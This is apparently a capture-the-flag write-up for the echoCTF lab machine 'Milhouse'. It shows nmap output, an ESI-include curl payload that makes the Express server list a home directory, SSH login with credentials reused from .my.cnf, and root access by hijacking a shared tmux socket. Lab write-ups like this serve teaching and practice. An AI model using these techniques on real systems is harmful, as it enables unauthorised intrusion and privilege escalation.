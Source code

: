 ```yaml
---
layout: post
title: Milhouse
feature-img: "assets/img/portfolio/milhouse.png"
img: "assets/img/portfolio/milhouse.png"
date: 13 sep 2021
tags: [Lorem, Ipsum]
---
```




[milhouse](https://echoctf.red/target/16)

![](/assets/img/milhouse.png)

machine description:

Milhouse, a side character included into the infrastructure. Although he's closest relative in our network is barney, they have nothing to do with each other.

I mean Milhouse was born on August 2001 and Barney sometime around 1993

---

### Enumartion


```
nmap -sC -sV -p- 10.0.200.29  

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 c8:1f:4f:6e:d0:8e:77:2a:76:9a:e9:59:f8:a0:d5:a3 (RSA)
|   256 e9:3a:ac:63:e3:9c:11:9e:60:6d:29:0c:a9:95:2f:33 (ECDSA)
|_  256 52:9e:9d:6d:d7:bf:07:32:85:87:95:89:a4:be:ce:b1 (ED25519)

80/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### vulnerability

Node.js Express framework


### Exploit 

from hint i understood it server side include.

[Node.js Express framework](https://haboob.sa/ctf/nullcon-2019/blog.html)

after some playing with payloads i found sveral errors that lead me to try: 

```
curl -XGET "http://10.0.200.29/?=%3Cesi:include%20src=%22http://127.0.0.1/%22%20/%3E"

Hello from Express! Request:/?=<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Directory listing for /</title>
<body>
<h2>Directory listing for /</h2>
<hr>
<ul>
<li><a href="%2520ETSCTF">%20ETSCTF</a>
<li><a href=".bash_history">.bash_history</a>
<li><a href=".bash_logout">.bash_logout</a>
<li><a href=".bashrc">.bashrc</a>
<li><a href=".my.cnf">.my.cnf</a>
<li><a href=".profile">.profile</a>
</ul>
<hr>
</body>
</html>

```

so now we can read files from users folder.

### Rce

reading my.cnf file gives us information for user,pass,home folder and some history commands. 
try user and pass from my.cnf  the pass didnt worked for login via ssh. 
i noticed that the user is ETSCTF, so i tried same pass and im in. 

```
ssh ETSCTF@10.0.200.29                                                                                                                   130 ⨯
ETSCTF@10.0.200.29's password: 
Linux milhouse.echocity-f.com 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ETSCTF@milhouse:~$ 
ETSCTF@milhouse:~$ 

```


### Privilege escalation

sudo -l - user is not in souders file.
ps -aux | grep root 

```

root        50  0.0  0.0  26624  2816 ?        Ss   06:31   0:00 tmux new -d -s 0 cd /root; python /app/server.py 127.0.0.1:80
root        51  0.0  0.0   9492  2484 pts/1    Ss+  06:31   0:00  _ bash -c cd /root; python /app/server.py 127.0.0.1:80
root        53  0.0  0.3  38444 12756 pts/1    S+   06:31   0:00      _ python /app/server.py 127.0.0.1:80
root        56  0.0  0.0  26624  2680 ?        Ss   06:31   0:00 tmux -S /tmp/tmux-shared new -d -s 0

```

tmux

what is tumux> 

[tmux man](https://man7.org/linux/man-pages/man1/tmux.1.html)

DESCRIPTION:

tmux is a terminal multiplexer: it enables a number of terminals to
be created, accessed, and controlled from a single screen.  
tmuxmay be detached from a screen and continue running in the
background, then later reattached.

lets try to find how can i connect to tmux terminal. 

[tmux_priv](https://int0x33.medium.com/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0l)
after understandng the vuln, i found in /tmp folder:
```
ETSCTF@milhouse:/tmp$ ls -la tmux-shared
srw-rw---- 1 root nogroup 0 Jul 11 06:31 tmux-shared
ETSCTF@milhouse:/tmp$ 

```
lets try to connect:

*tmux -S tmux-shared*

and we got root. 

*root@milhouse:/tmp#*
